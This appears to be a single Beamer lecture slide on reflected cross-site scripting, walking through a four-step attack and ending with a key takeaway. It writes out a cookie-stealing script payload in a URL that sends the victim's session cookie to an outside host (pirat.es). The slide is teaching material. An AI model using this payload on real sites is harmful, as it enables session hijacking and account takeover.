 \documentclass{beamer}
\def\emptyline{\vspace{10pt}}
\begin{document}
\begin{frame}[fragile]
\frametitle{Reflected XSS -- Step-by-Step Exploitation}

\textbf{1.} The attacker crafts a malicious URL:
\begin{lstlisting}[basicstyle=\ttfamily\tiny,breaklines=true,frame=single]
http://site.com/search.php?q=<script>
  new Image().src='http://pirat.es/steal?c='+document.cookie;
</script>
\end{lstlisting}

\textbf{2.} They send this link to the victim (email, message, social media).

\textbf{3.} The victim clicks $\rightarrow$ the server returns the page with the script.

\textbf{4.} The browser executes the script:
\begin{itemize}
\item The \alert{session cookie} is sent to the attacker's server.
\item The attacker can impersonate the victim.
\end{itemize}

\emptyline
\begin{alertblock}{Key takeaway}
The victim only sees a normal search page -- the attack is \textbf{invisible}.
\end{alertblock}
\end{frame}


\subsection{Stored XSS}
\end{document}
